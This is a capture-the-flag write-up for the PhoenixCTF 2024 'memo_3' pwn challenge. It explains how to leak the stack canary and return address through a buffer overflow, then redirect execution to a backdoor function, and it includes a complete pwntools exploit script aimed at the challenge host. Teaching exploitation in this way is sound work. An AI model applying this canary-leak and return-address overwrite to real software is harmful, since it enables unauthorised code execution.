

# PhoenixCTF 2024 - `memo_3` Writeup
```
pts: 75
Author: shunt
Category: pwn
```

Challenge files: [chal_3](./chal_3)

# TL;DR
Third challenge of the series and the difficulty was further increased by introducing [Canary](https://ir0nstone.gitbook.io/notes/types/stack/canaries) along with PIE. First job was to leak the canary and then the return address using the same technique used in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2).  After getting these values, final job was to overwrite the return address with the address of `backdoor()`. I had to pass the leaked canary as part of the final payload so that the canary check is passed while returning from the function. See [Detailed Solution](#detailed-solution) on how I leaked the canary and return address and got shell through `backdoor()`.

Final Exploit Script: [solve.py](#solvepy)
# Detailed Solution
## Initial Analysis
We can see that Canary has been enabled this time by running `checksec`.


If we look at Ghidra, we can see the canary check too at the end of `challenge()` function.


## Leaking Canary
Canary is a 8-byte (for 64-bit systems) random value placed on top of the stack frame of a function. Just before the function returns, a check is done to see whether that 8-byte value is tempered or not. If the stack is overflown then that value is corrupted and the check fails and the program throws an error. This extra protection is enabled to thwart bof attacks. Lets see in gdb where exactly in stack this Canary lies.


So, the canary is `0x18` or `24` bytes below RBP. That means if we try to overwrite return address or want to get the leak like in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2), this Canary would be overwritten too and the check would fail rendering our exploit useless. We have to leak this 8-byte value first and add it in our payload to leak and overwrite the return address. So how do we leak the canary? People usually adopt one of two ways to leak a canary. For 32-bit systems, one can brute-force the canary. See one example of that [here](https://book.hacktricks.xyz/binary-exploitation/common-binary-protections-and-bypasses/pie/bypassing-canary-and-pie). Another way is to use some format string vuln to leak the canary as [demonstrated here](https://ir0nstone.gitbook.io/notes/types/stack/canaries#leaking-it). For more info on stack canary, one can read this thorough [blog post by Ch0pin🕷️](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-4-stack-canaries-e9b6dd2c3127). But we don't need to worry about these mentioned techniques too much here as we can use the same approach of leaking return address used in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2) in here also.

Lets run the program a few times in gdb and see what the canary looks like.


We can see there's always a `/x00` byte at the end of the canary value. This is how stack canaries are implemented by GCC. We can use this to our advantage here. As we did in [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2), we can send arbitrary bytes to our buffer and get a leak as `printf()` will print until it finds a null byte (`/x00`). We can send garbage bytes and **overwrite just upto the `\x00` byte at the end of canary** and then view our memo using option 2. The byte right after Canary is all 0's as can be seen in the following image:



So, when we view the memo after overwriting, it would print until NULL byte is found and the last byte printed would be our Canary. From that leaked byte, we just have to replace our garbage byte with `/x00` and we get the Canary. 

The canary starts after byte position `264` in our memo buffer. 265th byte is the LSB of Canary i.e. `/x00`. So we overflow upto 265th position through the add memo option and afterwards view the memo to get the leak.


## Leak memory address
After leaking Canary, rest of the job is similar to [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2). We now have to leak the runtime memory address. We have to use the `edit` memo option now as we can't add more than one memo. The return address (`*main+28`) is after 296 byte position of our buffer and we can start overwriting after 264 byte position. Then when we view using option 2, we would get the return address as the last byte in newline.


From this leak, we subtract the offset of `backdoor()` (862) to get the runtime address of the start of `backdoor()` function.


## Get shell
Now the final job is to overwrite return address with the address of `backdoor()`, with an added constraint: **put the 8-byte leaked canary value after byte position 264 in the exploit payload**. The stack would look like following after sending the payload:
```
--------------------------------
+  Address of backdoor()       +
--------------------------------
+                              +
+  24-bytes of garbage         +
+                              +
--------------------------------
+  8-byte Leaked CANARY        +
--------------------------------
+                              +
+  buf[0..263]                 +
+                              +
--------------------------------
```
We pass the payload using `edit` option, next use `exit` option to return to `main` and voila! we get the shell! Remember from [memo_2](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_2) that passing 1 as `position` argument in `edit` option gives us the ability to write from after 264 bytes in the added memo.


## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("167.172.237.44", 30213)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *challenge+729
    b *challenge+800
"""

# Binary filename
exe = './chal_3'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
offset = 265
payload = b"A" * offset

# get CANARY leak
###########################
print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": "))
r.sendline(str(offset)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # dummy payload to leak CANARY
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass

resp = r.recvline().rstrip()
print(resp)
leak = resp[-8:]
# print(leak)
leak = leak.replace(b"A", b"") # replace dummy 'A' from leak
leak = u64(leak.rjust(8, b"\x00"))
print(f"leak (CANARY): {hex(leak)}")
CANARY = leak

# get MAIN leak
########################
offset = 31
payload = b"B" * offset

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to leak MAIN
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvline())

leak = r.recvline().rstrip()
print(leak)
leak = u64(leak.ljust(8, b"\x00"))
print(f"leak (MAIN): {hex(leak)}")

main = leak
BACKDOOR = leak - 862
# get SHELL
########################
offset = 24
payload = p64(CANARY)
payload += b"A" * offset
payload += p64(BACKDOOR)

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to overwrite ret address and call backdoor()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```

## Flag
`flag{5f4d068d-dbd7-452b-84bf-d029e5688845}`
